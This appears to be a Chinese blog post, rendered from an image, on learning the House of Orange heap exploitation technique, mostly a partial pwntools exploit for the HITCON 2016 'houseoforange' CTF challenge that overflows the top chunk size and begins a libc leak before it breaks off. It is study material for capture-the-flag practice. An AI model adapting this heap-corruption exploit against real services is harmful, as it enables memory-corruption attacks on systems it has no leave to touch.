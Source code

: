 [关于house of orange(unsorted bin attack &&FSOP)的学习总结 - ZikH26 - 博客园](https://www.cnblogs.com/ZIKH26/articles/16712469.html)

# House of Orange

今夜，就要彻底弄懂house of orange！

关于堆的部分在下面题目中已经体现，这里暂且不表

这里有个`houseoforange_hitcon_2016` 的exp：

```python
from pwn import *

url, port = "node5.buuoj.cn", 27641
filename = "./pwn"
elf = ELF(filename)
libc = ELF('./libc-2.23.so') # local
# libc = ELF("./libc64-2.23.so") # remote
context(arch="amd64", os="linux")
ld_path = 'ld-2.23.so'
targetELF = './pwn'
libc_path = './libc-2.23.so'
local = 1
if local:
    context.log_level = "debug"
    io = process(filename)
    # io = process([ld_path, targetELF],env={"LD_PRELOAD":libc_path})
else:
    io = remote(url, port)

def B():
    gdb.attach(io)
    pause()
    
lf = lambda addrstring, address: log.info('{}: %#x'.format(addrstring), address)

def build(length, name, price, color):
    io.sendlineafter("Your choice :", "1")
    io.sendlineafter("Length of name :", str(length))
    io.sendafter("Name :", name)
    io.sendlineafter("Price of Orange:", str(price))
    io.sendlineafter("Color of Orange:", str(color))

def upgrade(length, name, price, color):
    io.sendlineafter("Your choice :", "3")
    io.sendlineafter("Length of name :", str(length))
    io.sendafter("Name:", name)
    io.sendlineafter("Price of Orange: ", str(price))
    io.sendlineafter("Color of Orange:", str(color))

def pwn():
    build(0x30, 'ffff\n', 233, 56746) # chunk0
    # heap overflow to overwrite top chunk size
    payload = cyclic(0x30) + p64(0) + p64(0x21) + p32(233) + p32(56746)
    payload += p64(0) * 2 + p64(0xf81)
    
    upgrade(len(payload), payload, 233, 56746) # size must be page aligned

    # sysmalloc() free the old top chunk into unsorted bin
    build(0x1000, 'f\n', 233, 56746) # chunk1
    build(0x400, 'f'*8, 666, 2) # chunk2
    # leak libc 
    io.sendlineafter("Your choice :", "2")
```